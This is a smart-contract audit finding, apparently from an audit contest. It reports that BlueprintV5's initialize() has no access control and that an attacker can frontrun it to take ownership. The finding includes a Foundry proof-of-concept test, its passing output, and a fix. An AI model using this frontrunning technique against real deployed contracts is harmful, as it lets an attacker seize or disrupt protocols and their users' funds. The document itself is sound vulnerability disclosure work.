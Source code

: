 Nice Fossilized Fox

Medium

# Anyone can initialise BlueprintV5 contract

### Summary

Anyone can call BlueprintV5::initialize() to initialise the contract, allowing them to own the contract and upgrade it maliciously.

### Root Cause

In [`BlueprintV5.sol:15`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintV5.sol#L15) there is no check for who is calling the function, so anyone can initialise the contract. When the contract is deployed, another call to initialize() must be made, which an attacker can frontrun to claim ownership of the contract.

### Internal Pre-conditions

1. Crestal network deploys the BlueprintV5 contract
2. Crestal network submits transaction to initialise the BlueprintV5 contract
3. An attacker frontruns the transaction, calling initialize() with higher gas to cause miners to include the attacker's transaction first.
4. Attacker initialises and becomes owner of the contract, allowing them to upgrade/selfdestruct it.

### External Pre-conditions

1. Admin deploys BlueprintV5 and initialises BlueprintV5 in separate transactions

### Attack Path

1. Crestal network deploys the BlueprintV5 contract
2. Crestal network submits transaction to initialise the BlueprintV5 contract
3. An attacker frontruns the transaction, calling initialize() with higher gas to cause miners to include the attacker's transaction first.
4. Attacker initialises and becomes owner of the contract, allowing them to upgrade/selfdestruct it.

### Impact

This is a griefing attack, DoSing the deployment of BlueprintV5, the attacker has minimal gain but harms the protocol as the contract will need to be redeployed.

### PoC


The below PoC shows an attacker calling initialize before the admin does, therefore owning the contract and the admin's transaction reverts.

```solidity
pragma solidity ^0.8.26;

import {Test, console} from "forge-std/Test.sol";
import {Vm} from "forge-std/Vm.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";
import {BlueprintCore} from "../src/BlueprintCore.sol";
import {Blueprint} from "../src/Blueprint.sol";
import {stdError} from "forge-std/StdError.sol";
import {MockERC20} from "./MockERC20.sol";

contract BlueprintTest is Test {
    BlueprintV5 public blueprint;
    MockERC20 public mockToken;
    bytes32 public projectId;
    address public workerAddress;
    address public dummyAddress;
    address public attacker = address(0x1337);

    function test_frontrun_init_contract() public {
        // blueprintV5 gets deployed
        blueprint = new BlueprintV5();

        // attacker initialises the contract before admin initialises it
        vm.startPrank(attacker);
        blueprint.initialize();
        vm.stopPrank();

        console.log("BlueprintV5 owner: %s", blueprint.owner());
        
        
        // admin's transaction to initialize the contract fails
        vm.expectRevert();
        blueprint.initialize();
    }

}
```

output after running `forge test --match-test test_frontrun_init_contract -vvv`
```bash
Ran 1 test for test/initialise_poc.sol:BlueprintTest
[PASS] test_frontrun_init_contract() (gas: 4932973)
Logs:
  BlueprintV5 owner: 0x0000000000000000000000000000000000001337
```

### Mitigation

Either call `initialize()` in the constructor, or set an `owner` address in the constructor and restrict `initialize()` to be only callable by the owner.